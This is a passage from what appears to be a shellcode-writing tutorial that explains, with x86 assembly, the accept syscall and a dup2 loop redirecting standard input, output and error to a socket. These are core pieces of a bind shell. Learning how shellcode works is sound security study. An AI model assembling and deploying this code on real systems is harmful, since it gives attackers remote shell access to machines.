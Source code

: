 **Assembly Code:**

	    ; EAX
	    mov al, 0x66
	    ; EBX 
	    inc ebx 	; 5 for the ACCEPT SYS CALL
	    ; ECX
	    push edi	; NULL - address of the peer 
	    push edi	; NULL 	
	    push esi	; file descriptor
	    mov ecx, esp
	    int 0x80

###  <span style="color:#2d8fb3;"> Dup2 </span>

The next step is to redirect the STDIN, STDOUT and STDER to the socket session. The dup2() system call allocate a new file descriptor that refers to the same open file description as the descriptor oldfd. The file descriptor newfd is ajusted so that it refers to the same open file desdcription as oldfd. 

        root@kali:~# cat /usr/include/x86_64-linux-gnu/asm/unistd_32.h | grep dup2
            #define __NR_dup2 63

        man 2 dup2
        int dup2(int oldfd, int newfd)

The function is composed of:

1) int oldfd : File descriptor returned by the accept syscall

2) int newfd : File descriptor that we want to refer to

We will pass the following arguments :
- EAX : 0x3f (dup syscall, 63 in decimal)
- EBX : Previous EAX (File descriptor returned by the accept call)
- ECX : 0x2 to 0x0 (loop IN, OUT, ERR)

To perform the loop, we will use the intruction "JNS rel8" because it perform the jmp until the Sign Flag is set (SF=1), which mean that the zero is taken into account in the loop :

**Assembly Code:**
    
            ; EBX, File descriptor return by ACCEPT call
	        mov ebx, eax	; Retrieve the file descriptor
	
	        ; EAX, dup2 sys call 0x3f
	        xor eax, eax
	
	        ; initialize ECX 
	        xor ecx, ecx
	        mov cl, 0x2
	
	        ; LOOP

        DupLoop :
	 
	        mov al, 0x3f
	        int 0x80
	        dec ecx
	        jns DupLoop	
